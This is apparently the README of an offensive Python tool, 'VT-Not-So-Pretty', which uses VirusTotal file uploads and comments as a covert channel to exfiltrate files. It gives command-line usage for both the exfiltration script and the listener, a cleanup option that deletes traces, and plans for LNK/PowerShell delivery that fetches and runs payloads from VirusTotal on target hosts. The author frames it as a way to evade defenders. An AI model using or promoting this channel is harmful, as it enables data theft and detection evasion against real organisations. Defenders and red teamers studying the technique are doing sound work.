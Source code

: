 # VT-Not-So-Pretty

Python data exfiltration tool that uses VirusTotal as its infrastructure.

As defenders we are often overwhelmed by the sheer amount of network traffic in a network and overlook traffic made to well known trusted sites without any known suspicious functionalities (like file/software sharing sites). And what other site is more well known and trusted to defenders them virustotal.  

My main goal was to use virustotal upload and download functionalities to transfer files back and forth without the need to use our own infrastructure, and breaking the diamond model from the defenders perspective. 

## Usage Example
The tool is pretty simple just provide it a path, your VT API key, and a hash of a file (already uploded to VT) to which you want the hashes of the files exfiltrated to be written, to be able to download then later on.    

```
python .\Vt-Not-So-Pretty.py -f "PATH_TO_EXFIL" -k YOUR_API_KEY -c HASH_TO_COMMENT_ON
```
Alternatively you can enter this when prompted:

![Vy-Not-So-Pretty](https://github.com/user-attachments/assets/780fec17-50da-4aef-a91e-d3682be5c573)


After done uploading the files to VT all you have to do is just run listener as follow:

```
python VT-Listener.py -f C:\Path\to\save\files\to -k "YOUR_PREMIUM_API_KEY" -c "HASH_TO_CHECK_COMMENTS_ON"
```
Or you can also enter this when prompted:

![image](https://github.com/user-attachments/assets/9b8454a3-d486-4ef8-866d-a1b53a21c081)

## Optional cleanup
If you wish to delete the comments after file download (to cleanup as much as possible), all you have to do is provide the listener the api key used by the first tool as follow:
```
python VT-Listener.py -f C:\Path\to\save\files\to -k "YOUR_PREMIUM_API_KEY" -c "HASH_TO_CHECK_COMMENTS_ON -d "THE_API_KEY_USED_4_UPLOAD"
```

## Main Drawbacks:

1. The file size to transfer are limited to 650 MB per file - Could be solved with proper files splitting and compression.

2. Premium Subscription - In order to download files from VT premium subscription is needed, which could be pretty expensive.

## Disclaimer

This is an ongoing project, and in the future, I am planning to add more tools to it, for other uses as well, like for delivey using LNK files that contain a powershell code that download (or read in memory) file from VT and runs them on the target host.

## Upcoming updates:
Changing the endpoint to upload file larger then 35 MB.

Adding a cleanup stage option to delete the comments after downloading the files.
